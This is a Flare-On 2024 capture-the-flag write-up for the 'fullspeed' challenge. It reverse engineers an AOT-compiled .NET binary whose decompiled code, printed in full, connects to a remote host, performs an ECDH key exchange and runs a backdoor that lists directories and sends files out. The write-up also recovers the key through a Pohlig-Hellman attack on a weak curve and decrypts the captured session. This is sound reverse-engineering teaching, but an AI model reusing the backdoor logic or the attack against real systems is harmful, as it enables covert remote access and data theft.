

## Flare-On 2024 - #7 fullspeed
___

### Description: 

*Has this all been far too easy? Where's the math? Where's the science?*
*Where's the, I don't know.... cryptography?*
*Well we don't know about any of that, but here is a little .NET binary to chew on while you discuss career changes with your life coach.*

`7zip archive password: flare`

___

### Solution:

This was the second hardest challenge (after `#9 (seprentine)`) for this year's Flare-On.
Challenge description says it's a **.NET** binary but there is no **IL** in it. After some searching
we find that Microsoft now supports *Ahead Of Time (AOT) compilation for .NET binaries*. So we
have a natively compiled **.NET** binary with **6127** functions.


### Adding Function Signatures

This is actually the hardest part for this challenge. We search online how to reverse engineer
**AOT .NET** applications and we find these two helpful articles:

* [An introduction to reverse engineering .NET AOT applications](https://harfanglab.io/insidethelab/reverse-engineering-ida-pro-aot-net/)
* [Reverse engineering natively-compiled .NET apps](https://migeel.sk/blog/2023/09/15/reverse-engineering-natively-compiled-dotnet-apps/)


The idea is to write some **C# .NET** code, compile it natively and extract its function signatures,
so we can import them to IDA. But before we do that, we need to have a rough idea of what the binary
does and libraries it uses, so we can match the function signatures. We search for interesting
strings in the code (there are many strings so we only show the most interesting ones here):
```
┌─[12:25:20]─[✗:1]─[ispo@ispo-glaptop2]─[~/ctf/flare-on-challenges/flare-on-2024/07_fullspeed]
└──> strings fullspeed.exe -n 20 
[.....]
42BouncyCastle.Cryptography
:BouncyCastle.Cryptography.dll,System.Private.CoreLib
4System.Private.CoreLib.dll
:System.Collections.Concurrent
BSystem.Collections.Concurrent.dll
$System.Console.dllFSystem.Diagnostics.DiagnosticSource
NSystem.Diagnostics.DiagnosticSource.dll2System.Net.NameResolution
:System.Net.NameResolution.dll*System.Net.Primitives
2System.Net.Primitives.dll$System.Net.Sockets
,System.Net.Sockets.dllFSystem.Private.Reflection.Execution
NSystem.Private.Reflection.Execution.dllBSystem.Private.StackTraceMetadata
JSystem.Private.StackTraceMetadata.dll2System.Private.TypeLoader
:System.Private.TypeLoader.dll8System.Security.Cryptography
@System.Security.Cryptography.dll
hIh 2.4.0+83ebf4a805
i0.NETCoreApp,Version=v6.0
k@Legion of the Bouncy Castle Inc.9lml
 Legion of the Bouncy Castle Inc. 2000-2024
mvBouncyCastle.NET is a popular cryptography library for .NET=nqn BouncyCastle.NET
oLBouncyCastle.NET Cryptography (net6.0)
RepositoryUrlDhttps://github.com/bcgit/bc-csharp
0.NETCoreApp,Version=v8.0
*Microsoft Corporation
 Microsoft Corporation. All rights reserved.
8.0.524.21615\8.0.5+087e15321bb712ef6fe8b0ba6f8bd12facf92629 Microsoft
[.....]
,BCryptGetDWordProperty
6BCryptOpenAlgorithmProvider
8CreateCryptographicException
<GetCachedBCryptAlgorithmHandle
0ToCryptographicException
2HashDataUsingPseudoHandle
&HashUpdateAndFinish
DecryptStr.RandomNonzeroBigInteger
[.....]
```

Let's also check the **unicode strings**:
```
┌─[12:25:41]─[✗:1]─[ispo@ispo-glaptop2]─[~/ctf/flare-on-challenges/flare-on-2024/07_fullspeed]
└──> strings fullspeed.exe --encoding=l -n 20 
[.....]
SHA3-256SHA3-384SHA3-512CSHAKE12SHAKE128CSHAKE25SHAKE256
[.....]
0001020304050607080910111213141516171819202122232425262728293031323334353637383940414243444546474849505152535455565758596061626364656667686970717273747576777879808182838485868788899091929394959697989
1.2.156.11235.1.1.2.
1.2.840.113549.1.12.1.
1.2.840.113549.1.5.1
1.2.840.113549.1.9.1
[.....]
1.3.6.1.4.1.11591.4.1
1.3.6.1.4.1.1722.12.
1.3.6.1.4.1.18227.2.
1.3.6.1.4.1.188.7.1.1.
143444c8c3577c89194db804ac3e8243e2c0955fc46a781c1857dec5187b85d1e7d3e0b935241aabed6b8d22480d2e3204ee372e32039738bd7d28e5b84876f9d5a35185d043ef480e5b7bc6ec231352f380071958216cdd881d1954013b9f9
143540cbc0512c8f4c4db803f8698447e4c5905b90617c1f1c5d88934879d4d7b4d5e0eb60714cafec6dd8231809246704e5307b30019c3fbc7d28b3e81974f7d4f5008b8011ec4f0c0d78c3b8294407a485501b50213cdfdc1d48530839949
143f41d2c05427964848a505f9698c43e4c5905
153e449ec4047a8b1c1bbd50aa3cd540b0c69458c3667f4e1b5c8b9c1a7281d6e183e7ba65244faeea678f22100924670ce0677f630bcd6cbb7b22b3e91e21a2ddf307898344ef4c0c582d92b82e1456a5d35a4d00256adcd81b4f505f33c39
183b4edc950b6dcb5d43b60
183b4edc970b73dd0e5eb609f
1c604acfc8012f8a1c49e950fe3cd442e3c5c258c2312a1c1c58dd901a7fd0d5e3d4ebb861214eabec6b88204f0a74620de4652f60049838b42f2ee2e04c70a6dca501898041e61d585a2ecdec784652f4d7501d57223dd9db191d050c399f9
2.16.840.1.113894.746875.1.
2.16.840.1.114027.80.4.
2^70 byte limit per IV; Change I
443644c595002f80181fb900fe6a8445e59592549366771f4f5b8bc24e7dd7d7e182e7ea307747f9ec3ada22195c71670ce43a7b6551cc31ef287ae0ef4921a3dcf052848041eb1904097ec2bd2b4608f482531f5223698ddd4818550a3890c
463f43cdc15079d91c4ab352f862d545b097c05dc765794a4f5a8bc54828de86e7d6b7e4657348a9ef3c89711a5f226502e0627b60079931ba7878b6bb4b22a384f20484811be84e080c73c7e87b4707ad835b1f04236aded81f4c565839c1c
53630195971b3fde1c17e751a
[.....]
Org.BouncyCastle.EC.Fp_Certaint
Org.BouncyCastle.EC.Fp_MaxSize
[.....]
randomNumberGenerator
[.....]
```

We get a lot of useful information from here:
* **.NET** Version is `8.0.524.21615\8.0.5+087e15321bb712ef6fe8b0ba6f8bd12facf92629`
* Program uses [BouncyCastle](https://www.bouncycastle.org/download/bouncy-castle-c/) crypto library
* There is Elliptic Curve Cryptography involved (`Org.BouncyCastle.EC.Fp_MaxSize`)
* Obviously, big integers are also used (`143444c8c3577c89....`)
* Random numbers are used as well (`randomNumberGenerator`)
* Something is being hashed but we do not know the algorithm (`HashUpdateAndFinish`)
* There are threads (`System.Collections.Concurrent`)
* There are sockets (`2System.Net.Primitives.dll$System.Net.Sockets`
* There are several version numbers (we are not sure about these yet)

Now let's write some **C#** code (with the help of ChatGPT of course) that uses all the above.
The code does not have to run perfectly or without any errors; All we want is to have as many
functions as we can so we can get their signatures. 

You can find the code in [Program.cs](./Program.cs). We **"publish"** the binary (into
`fullspeed_sigs.exe`) and we use 
[idb2pat.py](https://github.com/mandiant/flare-ida/blob/master/python/flare/idb2pat.py) to
create the `fullspeed_sigs.pat` file. Then we run `sigmake.exe`:


There are a several collisions at the beginning, we resolve them twice (we follow the
instructions in the
[article](https://harfanglab.io/insidethelab/reverse-engineering-ida-pro-aot-net/);
we simply keep the first from every collision) and then we get the `fullspeed_sigs.sig` file,
which we import in IDA. We see that the situation has been improved dramatically:

Before:


After:


Our code is not perfect but at least we can move forward.
___

### Reversing the Actual Code

Let's start with a very important function which is used to decrypt strings:
```c
__int64 __fastcall u_decr_string(__int64 a1) {
  /* ... */
  v2 = System_Net_Primitives_System_Net_IPEndPoint__Parse(a1);
  prg = 0;
  i = 0LL;
  v5 = *(v2 + 8);
  if ( v5 > 0 ){
    do {
      prg = 13 * prg + 37;
      *(v2 + i + 16) ^= prg;
      i = (i + 1);
    } while ( v5 > i );
  }
  if ( *(&qword_7FF71D348DF8 - 1) )
    sub_7FF71D1F1A54(&qword_7FF71D348DF8, i);
  return (*(**(qword_7FF71D428838 + 8) + 216LL))(*(qword_7FF71D428838 + 8), v2);
}
```

From the XREFs we can find and decrypt all strings in the program. The 
[fullspeed_str_decr.py](./fullspeed_str_decr.py) script decrypts (statically) all strings:
```
4c6815           ~> b'inf'
53630195971b     ~> b'verify'
53630195971b3... ~> b'verify failed'
143540cbc0512... ~> b'133713371337133713371337133713371337133713371337133713371337133713371337133713371337133713371337'
4b731f90         ~> b'null'
59               ~> b'|'
4662             ~> b'cd'
4a6d             ~> b'ok'
51691cdc9d0d71df ~> b'too long'
183b4edc950b6... ~> b'=== dirs ==='
0b               ~> b'.'
183b4edc970b7... ~> b'=== files ==='
466707           ~> b'cat'
407e1a88         ~> b'exit'
476717dc920f7b   ~> b'bad cmd'
143f41d2c0542... ~> b'192.168.56.103;31337'
1e               ~> b';'
4975             ~> b'ls'
463f43cdc1507... ~> b'c90102faa48f18b5eac1f76bb40a1b9fb0d841712bbe3e5576a7a56976c2baeca47809765283aa078583e1e65172a3fd'
443644c595002... ~> b'a079db08ea2470350c182487b50f7707dd46a58a1d160ff79297dcc9bfad6cfc96a81c4a97564118a40331fe0fc1327f'
1c604acfc8012... ~> b'9f939c02a7bd7fc263a4cce416f4c575f28d0c1315c4f0c282fca6709a5f9f7f9c251c9eede9eb1baa31602167fa5380'
153e449ec4047... ~> b'087b5fe3ae6dcfb0e074b40f6208c8f6de4f4f0679d6933796d3b9bd659704fb85452f041fff14cf0e9aa7e45544f9d8'
143444c8c3577... ~> b'127425c1d330ed537663e87459eaa1b1b53edfe305f6a79b184b3180033aab190eb9aa003e02e9dbf6d593c5e3b08182'
```

As you can see there are a lot of interesting strings. Before `main()`, program executes a ctor
to initialize an Elliptic Curve `(q, a, b)` and a point `G = (x, y)`:
```c
void u_init_bigints() {
  /* ... */
  bigint_q = RhpNewFast(&bigint_obj);
  v1 = u_decr_string(&off_7FF71D32FC68);
  // c90102faa48f18b5eac1f76bb40a1b9fb0d841712bbe3e5576a7a56976c2baeca47809765283aa078583e1e65172a3fd
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(bigint_q, v1, 16LL);
  bigint_a = RhpNewFast(&bigint_obj);
  v3 = u_decr_string(&off_7FF71D32FA90);
  // a079db08ea2470350c182487b50f7707dd46a58a1d160ff79297dcc9bfad6cfc96a81c4a97564118a40331fe0fc1327f
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(bigint_a, v3, 16LL);
  bigint_b = RhpNewFast(&bigint_obj);
  v5 = u_decr_string(&off_7FF71D32EEC8);
  // 9f939c02a7bd7fc263a4cce416f4c575f28d0c1315c4f0c282fca6709a5f9f7f9c251c9eede9eb1baa31602167fa5380
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(bigint_b, v5, 16LL);
  bigint_x = RhpNewFast(&bigint_obj);
  v7 = u_decr_string(&off_7FF71D32EC18);
  // 087b5fe3ae6dcfb0e074b40f6208c8f6de4f4f0679d6933796d3b9bd659704fb85452f041fff14cf0e9aa7e45544f9d8
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(bigint_x, v7, 16LL);
  bigint_y = RhpNewFast(&bigint_obj);
  v9 = u_decr_string(&off_7FF71D32E860);
  // 127425c1d330ed537663e87459eaa1b1b53edfe305f6a79b184b3180033aab190eb9aa003e02e9dbf6d593c5e3b08182
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(bigint_y, v9, 16LL);
  EC = RhpNewFast(&qword_7FF71D34B618);
  // FpCurve(BigInteger q, BigInteger a, BigInteger b, BigInteger order, BigInteger cofactor)
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_EC_FpCurve___ctor_1(EC, bigint_q, bigint_a, bigint_b, 0LL, 0LL, 0);
  /* ... */
  v13 = RhpNewFast(&unk_7FF71D34B188);
  Prng = BouncyCastle_Cryptography_Org_BouncyCastle_Security_SecureRandom__CreatePrng(&glo_prng, 1LL);// autoSeed = 1
  S_P_CoreLib_System_Random___ctor_0(v13, 0LL);
  /* ... */
}
```

Now we to to the real `main()` of the program:
```c
void __stdcall fullspeed_real_main() { // main ~> managed_main ~> fullspeed_real_main
  /* ... */
  v14 = 0LL;
  v15[0] = 0LL;
  if ( qword_7FF71D348FC0[-1] )
    sub_7FF71D1F1ED4();                         // call ctors (init bigints)
  v0 = qword_7FF71D428A68;
  v1 = u_decr_string(&glo_ip_and_port);         // 192.168.56.103;31337
  v2 = u_decr_string(&glo_semicolon);           // ;
  /* ... */
  System_Net_Sockets_System_Net_Sockets_TcpClient___ctor_2(v12, v5, v11);// patch IP
  RhpAssignRefAVLocation((v0 + 32), v12);
  Stream = System_Net_Sockets_System_Net_Sockets_TcpClient__GetStream();
  RhpAssignRefAVLocation((v0 + 40), Stream);
  u_EXHANGE_KEYS();
  u_DISPATCH_COMMANDS();
}
```

Program connects to `192.168.56.103:31337` and then calls `u_EXHANGE_KEYS()`:
```c
__int64 u_EXHANGE_KEYS() {
  /* ... */
  if ( qword_7FF71D348FC0[-1] )
    sub_7FF71D1F1ED4();
  v0 = qword_7FF71D428A68;
  big_1337 = RhpNewFast(&bigint_obj);
  bigint_str_a = u_decr_string(&glo_133713371337);
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_1(big_1337, bigint_str_a, 16LL);// 1337 is hex
  if ( !*(v0 + 16) || !*(v0 + 40) )
  {
    v43 = RhpNewFast(&unk_7FF71D350BA8);
    v44 = u_decr_string(&glo_null);
    S_P_CoreLib_System_InvalidOperationException___ctor_0(v43, v44);
    RhpThrowEx(v43);
  }
  bigint_rand_k = u_gen_random(0x80u);
  k_mult_G = (*(**(v0 + 16) + 224LL))(*(v0 + 16), bigint_rand_k);// Multiply with G (probably)
  new_EC_point = (*(*k_mult_G + 136LL))(k_mult_G);// make EC point
  v6 = new_EC_point;
  if ( *(new_EC_point + 16) )
    v7 = 0;
  else
    v7 = *(new_EC_point + 24) == 0LL;
  if ( v7 )
  {
    v45 = RhpNewFast(&unk_7FF71D350BA8);
    v46 = u_decr_string(&glo_inf);
    S_P_CoreLib_System_InvalidOperationException___ctor_0(v45, v46);
    RhpThrowEx(v45);
  }
  v8 = RhpNewArray(&word_7FF71D37B688, 48LL);
  v9 = (*(*v6 + 80LL))(v6);                     // BouncyCastle_Cryptography_Org_BouncyCastle_Math_EC_ECPoint__get_AffineXCoord
  v10 = (*(*v9 + 48LL))(v9);                    // get something
  v11 = BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger__Xor(v10, big_1337);
  *(&v52 + 1) = v8 + 16;
  LODWORD(v53) = 48;
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger__ToByteArray_2(v11, 1LL, &v52 + 8);
  sock = *(v0 + 40);
  v51 = v8 + 16;
  LODWORD(v52) = 48;
  u_socket_send(sock, &v51);
  v13 = (*(*v6 + 88LL))(v6);                    // BouncyCastle_Cryptography_Org_BouncyCastle_Math_EC_ECPoint__get_AffineYCoord
  v14 = (*(*v13 + 48LL))(v13);
  v15 = BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger__Xor(v14, big_1337);
  *(&v52 + 1) = v8 + 16;
  LODWORD(v53) = 48;
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger__ToByteArray_2(v15, 1LL, &v52 + 8);
  sock_ = *(v0 + 40);
  v51 = v8 + 16;
  LODWORD(v52) = 48;
  u_socket_send(sock_, &v51);
  v17 = *(v0 + 40);
  *(&v52 + 1) = v8 + 16;
  LODWORD(v53) = 48;
  u_socket_recv(v17, &v52 + 8);
  bigint_recv_a = RhpNewFast(&bigint_obj);
  if ( *(&qword_7FF71D348AC8 - 1) )
    sub_7FF71D1F1454();
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_9(bigint_recv_a, 1, v8, 0, 48, 1);
  v19 = BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger__Xor(bigint_recv_a, big_1337);
  v20 = *(v0 + 40);
  *(&v52 + 1) = v8 + 16;
  LODWORD(v53) = 48;
  u_socket_recv(v20, &v52 + 8);
  bigint_recv_b = RhpNewFast(&bigint_obj);
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger___ctor_9(bigint_recv_b, 1, v8, 0, 48, 1);
  v22 = BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger__Xor(bigint_recv_b, big_1337);
  recv_secret = (*(**(v0 + 8) + 80LL))(*(v0 + 8), v19, v22);// create FpPoint
  shared_key = (*(*recv_secret + 224LL))(recv_secret, bigint_rand_k);// multiply recv point with your private key
  v25 = (*(*shared_key + 136LL))(shared_key);   // multiply few times
  v26 = v25;
  if ( *(v25 + 16) )
    v27 = 0;
  else
    v27 = *(v25 + 24) == 0LL;
  if ( v27 )
  {
    v47 = RhpNewFast(&unk_7FF71D350BA8);
    v48 = u_decr_string(&glo_inf);
    S_P_CoreLib_System_InvalidOperationException___ctor_0(v47, v48);
    RhpThrowEx(v47);
  }
  v28 = (*(*v26 + 80LL))(v26);                  // BouncyCastle_Cryptography_Org_BouncyCastle_Math_EC_ECPoint__get_AffineXCoord
  v29 = (*(*v28 + 48LL))(v28);                  // nothing
  *(&v52 + 1) = v8 + 16;
  LODWORD(v53) = 48;
  BouncyCastle_Cryptography_Org_BouncyCastle_Math_BigInteger__ToByteArray_2(v29, 1LL, &v52 + 8);
  key = u_do_sha512(v8);
  if ( key )
  {
    key1 = key + 16;
    key2 = *(key + 8);
  }
  else
  {
    key1 = 0LL;
    key2 = 0LL;
  }
  if ( key2 < 0x28 )
    ExceptionLib01(key2);
  salsa20 = RhpNewFast(&unk_7FF71D34C6C0);
  if ( *(&glo_salsa20_rounds_20 - 1) )
    sub_7FF71D1F10AE();
  // THIS IS ACTUALLY CHACHA !
  BouncyCastle_Cryptography_Org_BouncyCastle_Crypto_Engines_Salsa20Engine___ctor_0(salsa20, glo_salsa20_rounds_20);
  RhpAssignRefAVLocation((v0 + 48), salsa20);
  v34 = RhpNewFast(&unk_7FF71D34C5B8);
  v35 = RhpNewArray(&word_7FF71D37B688, 32LL);
  v36 = *(key1 + 16);                           // 32-bytes for the key
  *(v35 + 16) = *key1;
  *(v35 + 32) = v36;
  RhpAssignRefAVLocation(v34 + 1, v35);
  v37 = RhpNewFast(&unk_7FF71D34C610);
  RhpAssignRefAVLocation(v37 + 1, v34);
  v38 = RhpNewArray(&word_7FF71D37B688, 8LL);
  *(v38 + 16) = *(key1 + 32);                   // 8-bytes for the nonce?
  RhpAssignRefAVLocation(v37 + 2, v38);
  off_7FF71D34A6C0(*(v0 + 48), 1LL, v37);
  v39 = sub_7FF71D2F83C0();
  v40 = u_decr_string(&glo_verify);
  if ( !String__Equals_0(v39, v40) )
  {
    v49 = RhpNewFast(&unk_7FF71D350BA8);
    v50 = u_decr_string(&glo_verify_failed);
    S_P_CoreLib_System_InvalidOperationException___ctor_0(v49, v50);
    RhpThrowEx(v49);
  }
  v41 = u_decr_string(&glo_verify);
  return u_reply_to_server(v41);
}
```

This function is not code is not very clean, and it is hard to figure out what arguments go on
each function, but with some help from the debugger we can understand what is going on. This is an
[Elliptic Curve Diffie Hellman (ECDH)](https://en.wikipedia.org/wiki/Elliptic-curve_Diffie%E2%80%93Hellman)
key exchange. Function generates a random `k` of **128-bits** and multiplies it with the
(known) point `G = (x, y)` and sends the two coordinates `(x1, y1) = k1*G` to the other side.
Then it receives two coordinates `(x2, y2) = k2*G` from the other side and computes `k1*k2*G` which
is the shared secret. Every number it sends/receives is XORed with the following key:
```
133713371337133713371337133713371337133713371337133713371337133713371337133713371337133713371337
```

After the key exchange, function calls `u_do_sha512` on the **X** coordinate of the shared secret
(it calls `ECPoint__get_AffineXCoord`):
```c
__int64 __fastcall u_do_sha512(__int64 a1) {
  /* ... */
  v4 = 0LL;
  if ( !a1 )
    ExceptionLib06(&off_7FF7D3683698);
  v1 = a1 + 16;
  v2 = *(a1 + 8);
  v4 = v1;
  v5 = v2;
  return System_Security_Cryptography_System_Security_Cryptography_SHA512__HashData_0(&v4);
}
```

Then it takes the **SHA512** digest and uses it as a key for a
[ChaCha](https://en.wikipedia.org/wiki/Salsa20) cipher. More specifically, **the first 32 bytes
are used as a key** and **the next 8 bytes (32-40) are used as nonce**. 

> NOTE: The signature here shows 
> `BouncyCastle_Cryptography_Org_BouncyCastle_Crypto_Engines_Salsa20Engine___ctor_0` but it is not
> a **Salsa20** (I found this through trial and error). **Salsa20** and **ChaCha** are actually the
> same algorithm; their only difference is how they setup their *initial state*, so we probably
> generated the exact same signature for both functions.

After that it encrypts (with **ChaCha**) the string `verify` and sends it to the other side. The
other side does the same. After that we return back to `main()` and program calls
`u_DISPATCH_COMMANDS`:
```c
__int64 u_DISPATCH_COMMANDS() {
  /* ... */
  if ( qword_7FF7D3688FC0[-1] )
    sub_7FF7D35313DA();
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        while ( 1 )
        {
          v0 = sub_7FF7D36383C0();
          v1 = u_decr_string(&glo_pipe);
          if ( !v1 )
            v1 = &off_7FF7D366A048;
          sub_7FF7D35E4000(v0, v1, 0LL, 0x7FFFFFFF, 0);
          v4 = v2;
          v5 = *(v2 + 8);
          if ( !v5 )
LABEL_9:
            ExceptionLib02(v3);
          v6 = *(v2 + 16);
          v7 = u_decr_string(&glo_cd);
          if ( !String__Equals_0(v6, v7) )
            break;
          if ( v5 <= 1 )
            goto LABEL_9;
          sub_7FF7D3612C50(*(v4 + 24));
          v8 = u_decr_string(&glo_ok);
          u_reply_to_server(v8);
        }
        v9 = *(v4 + 16);
        v10 = u_decr_string(&glo_ls);
        if ( !String__Equals_0(v9, v10) )
          break;
        v11 = RhpNewFast(&unk_7FF7D3693318);
        *(v11 + 8) = 0x7FFFFFFF;
        v12 = RhpNewArray(&unk_7FF7D36BB720, 16LL);
        RhpAssignRefAVLocation((v11 + 1), v12);
        v13 = u_decr_string(&glo_dirs_banner);  // === dirs ===
        if ( v13 )
          S_P_CoreLib_System_Text_StringBuilder__Append_25(v11, v13 + 12, *(v13 + 8));
        S_P_CoreLib_System_Text_StringBuilder__Append_25(v11, &off_7FF7D366A140 + 12, 2LL);
        v14 = u_decr_string(&glo_dot);          // .
        if ( *(&qword_7FF7D3688E70 - 1) )
          sub_7FF7D3531BB4();
        v15 = qword_7FF7D37688B0;
        v16 = *(qword_7FF7D37688B0 + 8);
        v17 = RhpNewFast(&unk_7FF7D369D718);
        v18 = S_P_CoreLib_System_IO_Directory__InternalEnumeratePaths(v14, &off_7FF7D366B210, 2LL, v16);
        S_P_CoreLib_System_Collections_Generic_List_1_System___Canon____ctor_1(v17, v18);
        v19 = sub_7FF7D3649D70(v17);
        v20 = 0;
        v21 = *(v19 + 8);
        if ( v21 > 0 )
        {
          do
          {
            FileName = S_P_CoreLib_System_IO_Path__GetFileName(*(v19 + 8LL * v20 + 16));
            if ( FileName )
              S_P_CoreLib_System_Text_StringBuilder__Append_25(v11, FileName + 12, *(FileName + 8));
            S_P_CoreLib_System_Text_StringBuilder__Append_25(v11, &off_7FF7D366A140 + 12, 2LL);
            ++v20;
          }
          while ( v21 > v20 );
        }
        v23 = u_decr_string(&glo_files_banner); // === files ===
        if ( v23 )
          S_P_CoreLib_System_Text_StringBuilder__Append_25(v11, v23 + 12, *(v23 + 8));
        S_P_CoreLib_System_Text_StringBuilder__Append_25(v11, &off_7FF7D366A140 + 12, 2LL);
        v24 = u_decr_string(&glo_dot);
        v25 = *(v15 + 8);
        v26 = RhpNewFast(&unk_7FF7D369D718);
        v27 = S_P_CoreLib_System_IO_Directory__InternalEnumeratePaths(v24, &off_7FF7D366B210, 1LL, v25);
        S_P_CoreLib_System_Collections_Generic_List_1_System___Canon____ctor_1(v26, v27);
        v28 = sub_7FF7D3649D70(v26);
        v29 = 0;
        v30 = *(v28 + 8);
        if ( v30 > 0 )
        {
          do
          {
            v31 = S_P_CoreLib_System_IO_Path__GetFileName(*(v28 + 8LL * v29 + 16));
            if ( v31 )
              S_P_CoreLib_System_Text_StringBuilder__Append_25(v11, v31 + 12, *(v31 + 8));
            S_P_CoreLib_System_Text_StringBuilder__Append_25(v11, &off_7FF7D366A140 + 12, 2LL);
            ++v29;
          }
          while ( v30 > v29 );
        }
        v32 = S_P_CoreLib_System_Text_StringBuilder__ToString(v11);
        u_reply_to_server(v32);
      }
      v33 = *(v4 + 16);
      v34 = u_decr_string(&glo_cat);
      if ( !String__Equals_0(v33, v34) )
        break;
      if ( v5 <= 1 )
        goto LABEL_9;
      AllBytes = S_P_CoreLib_System_IO_File__ReadAllBytes(*(v4 + 24));
      v36 = S_P_CoreLib_System_Convert__ToBase64String(AllBytes);
      u_reply_to_server(v36);
    }
    v37 = *(v4 + 16);
    v38 = u_decr_string(&glo_exit);
    result = String__Equals_0(v37, v38);
    if ( result )
      return result;
    v40 = u_decr_string(&glo_bad_cmd);
    u_reply_to_server(v40);
  }
}
```

This function receives shell commands, executes them and sends the results back. The communication
is of course encrypted with the **ChaCha** stream cipher. Please note that *the keystream only
moves forward*; we do not create a new instance of **ChaCha** for every packet.

___

### Recovering the Shared Secret

We are also given a `capture.pcapng` with the encrypted communication:



Our goal is to recover the shared secret and then decrypt the communication.
After a lot of searching on the possible attacks on Elliptic Curve Diffie-Hellman, we found the
[Pohlig-Hellman](https://crypto.stackexchange.com/questions/81851/pohlig-hellman-and-small-subgroup-attacks)
attack. For this attack to work, the Elliptic Curve parameters `a` and `b` should not be prime
numbers; and they are **not**.

We know `k*G = (x1, y1)` and we want to find `k`.

The way that Pohlig-Hellman attack works, is by *reducing the discrete logarithm problem of
a group with a composite order, to the discrete logarithm problem of smaller groups with
prime order*. That is, it finds the **prime factors of the order of the Elliptic Curve**
and then computes the discrete logarithm for each factor. By 
[Lagrange's theorem](https://en.wikipedia.org/wiki/Lagrange%27s_theorem_(group_theory)),
we know that *the order of every subgroup divides the order of group G*. Thus, if we find the
discrete logarithm for every subgroup (e.g., prime factor) we can use the
[Chinese Remainder Theorem (CRT)](https://en.wikipedia.org/wiki/Chinese_remainder_theorem),
to find the discrete logarithm of the group.

The (first) point in the Curve that we have from the communication is:
```
x: 3902729749136290727021456713077352817203141198354795319199240365158569738643238197536678384836705278431794896368793
y: 8229109857867260486993831343979405488668387983876094644791511977475828392446562276759399366591204626781463052691989
```

The order of Elliptic Curve is:
```
30937339651019945892244794266256713890440922455872051984762505561763526780311616863989511376879697740787911484829297
```

Its prime factors are:
```
35809
46027
56369
57301
65063
111659
113111
7072010737074051173701300310820071551428959987622994965153676442076542799542912293
```

We can easily compute the discrete logarithm for each factor except the last one which is
impossible. So Pohlig-Hellman does not work in our case. **Or it does?**

Well, it **partially works**. We know that the secret `k` that we want to find its discrete
logarithm is **128-bits**. What if we exclude the last big factor from our computations? Then we
can do the Pohlig-Hellman and recover a `k` which is `3914004671535485983675163411331184`, or
**112-bits**. This is a number which is somewhat close to what we want.
Here is the trick: We know that `k` satisfies all the solutions from CRT:
```
  k == 11872 mod 35809
  k == 42485 mod 46027
  k == 12334 mod 56369
  k == 45941 mod 57301
  k == 27946 mod 65063
  k == 43080 mod 111659
  k == 57712 mod 113111
```

However we are missing the last equation. We cannot find the discrete logarithm because
the number is too big:
```
      k == ? mod 7072010737074051173701300310820071551428959987622994965153676442076542799542912293
```

We found that the solution `3914004671535485983675163411331184` satisfies all the above equations. 
However, the following solution will **also** satisfies all the equations:
```
  3914004671535485983675163411331184 + 35809*46027*56369*57301*65063*111659*113111 = 
  3914004671535485983675163411331184 + 4374617177662805965808447230529629
```

In fact, all these numbers:
```
  3914004671535485983675163411331184 + 4374617177662805965808447230529629 * i
```

are valid solutions. So, we try them all! If we find the correct `k`, then `k*G` will be equal to
`(x1, y1)`. We know that `k` is **128-bits** and our initial guess is **112-bits**. Since
`4374617177662805965808447230529629` is also a big number, we will eventually try all possible
solutions. Hence, we should find the correct solution before that. Essentially, we brute-force the
remaining bits from `kA` in a clever way. We do this and after **~2 mins** we found the secret `k`:
```
  168606034648973740214207039875253762473
```

Then we can multiply it with the point `(x2, y2)` from the other side and find the shared secret:
```
x: 9285933189458587360370996409965684516994278319709076885861327850062567211786910941012004843231232528920376385508032
y: 380692327439186423832217831462830789200626503899948375582964334293932372864029888872966411054442434800585116270210
```

The script recovers the shared secret is [pohlig_hellman_EC.sage](./pohlig_hellman_EC.sage).
___


### Decrypting the Communication:

Once we recover the shared secret, we can compute the **SHA512** of its `x` coordinate and then
get the **ChaCha** key. Having that we can decrypt all packets and recover the encrypted
communication:
```
-> b'verify\x00'
<- b'verify\x00'
-> b'ls\x00'
<- b'=== dirs ===\r\nsecrets\r\n=== files ===\r\nfullspeed.exe\r\n\x00'
-> b'cd|secrets\x00'
<- b'ok\x00'
-> b'ls\x00'
<- b'=== dirs ===\r\nsuper secrets\r\n=== files ===\r\n\x00'
-> b'cd|super secrets\x00'
<- b'ok\x00'
-> b'ls\x00'
<- b'=== dirs ===\r\n.hidden\r\n=== files ===\r\n\x00'
-> b'cd|.hidden\x00'
<- b'ok\x00'
-> b'ls\x00'
